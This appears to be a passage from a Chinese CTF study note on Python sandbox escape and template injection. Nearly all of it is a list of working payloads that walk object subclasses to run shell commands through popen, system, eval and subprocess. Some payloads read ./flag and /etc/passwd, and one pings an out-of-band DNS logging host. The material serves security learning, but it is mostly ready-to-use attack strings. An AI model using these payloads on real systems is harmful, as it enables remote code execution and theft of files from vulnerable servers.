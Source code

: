 ```Python
    # res3 = requests.post(url=url, data=data_globals, headers=headers)
    # if res3.text != "Hello " and res3.text != "No this level":
    #     print(html.fromstring(res3.text).text.replace("\n", "【回车】"))

```

![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230729181809015.png)

```
<class 'os._wrap_close'>类：
利用popen()执行命令：().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('whoami').read()
利用system()执行命令：().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['system']('ping 78319.UOFOS5Q7RU.dns.xms.la')

通过__builtins__获取内置方法，能够调用__builtins__即可，测试很多类都能够调用：
利用eval()执行命令：().__class__.__bases__[0].__subclasses__()[465].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat ./flag").read()')
通过open()查看flag：().__class__.__bases__[0].__subclasses__()[465].__init__.__globals__['__builtins__']['open']('./flag', 'r').read()

<class 'subprocess.Popen'>类：
利用subprocess.run()执行命令：().__class__.__bases__[0].__subclasses__()[396].__init__.__globals__['run']('whoami', capture_output=True, text=True).stdout
利用subprocess.Popen()执行命令：().__class__.__bases__[0].__subclasses__()[396].__init__.__globals__['Popen'](["touch", "./456"])

<class '_frozen_importlib.BuiltinImporter'>类：
利用load_module()加载模块os进行执行命令：().__class__.__bases__[0].__subclasses__()[84]['load_module']("os")["popen"]("ls").read()

利用linecache函数执行命令，有几个类都有这个函数：
linecache()这个函数中也引入了os模块：().__class__.__bases__[0].__subclasses__()[259].__init__.__globals__['linecache'].os.popen('dir').read()

<class '_frozen_importlib_external.FileLoader'>类：
通过get_data函数读取文件内容：().__class__.__bases__[0].__subclasses__()[94]["get_data"](0, "/etc/passwd")
```
